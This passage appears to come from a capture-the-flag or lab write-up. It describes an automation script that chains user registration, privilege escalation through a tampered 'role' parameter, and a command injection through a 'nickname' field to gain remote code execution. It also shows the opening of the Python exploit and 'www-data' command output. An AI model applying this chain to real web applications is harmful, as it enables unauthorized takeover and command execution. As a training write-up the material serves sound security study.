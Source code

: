 ```html
.
.
SNIP
.
.
<tr>    <th scope="row">uid=33(www-data) gid=33(www-data) groups=33(www-data)
</th>    <td>1337</td>    <td>0</td>  </tr>
.
.
SNIP
.
.
```

# AUTOMATION FOR THE WIN

To simplify the process of exploiting the `RCE` vulnerability, we created an automation script. This script performs a series of steps to take control of the web application and execute arbitrary commands on the server. Here's how the script works:

- It takes two command-line arguments: the `IP` address of the target and the `command` to execute.
- The script starts by generating a random username and password and registers a new user on the web application. It then logs in as this user.
- It escalates the user's privileges to `Admin` by manipulating the `role` parameter, effectively granting admin access.
- The script logs in as an admin user and proceeds to create another random username and password for a `normal user`.
- It registers the normal user, logs in as this user, and injects a `Remote Code Execution` payload into the `nickname` parameter.
- This payload includes the command specified as an argument to the script.
- The script then triggers the `RCE` vulnerability and sends the payload to the server.
- It exports the data as an `admin` user, which leads to the execution of the `RCE` payload.
- Finally, the script parses the output and displays the results, which typically include the output of the executed command.

```python
import sys
import string
import random
import requests
from bs4 import BeautifulSoup

if len(sys.argv) < 3:
    print(f"USAGE: {sys.argv[0]} <ip> <cmd>")
    sys.exit(1)

url = "http://" + sys.argv[1] + "/"
proxy = {"http": "http://127.0.0.1:8080", "https": "https://127.0.0.1:8080"}

# creating a userword
username = ''.join(random.choice(string.ascii_lowercase) for _ in range(8))
print(f"Generated username: {username}")

# creating a password
password = ''.join(random.choice(string.ascii_lowercase) for _ in range(8))
print(f"Generated password: {password}")

# registering the user
data = {"username": username, "password": password}
response = requests.post(url + "create_player.php", data=data, allow_redirects=False)
if "Successfully registered" in response.headers["Location"]:
    print("Successfully registered user.")
    session_cookie = response.headers["Set-Cookie"].split(";")[0]
```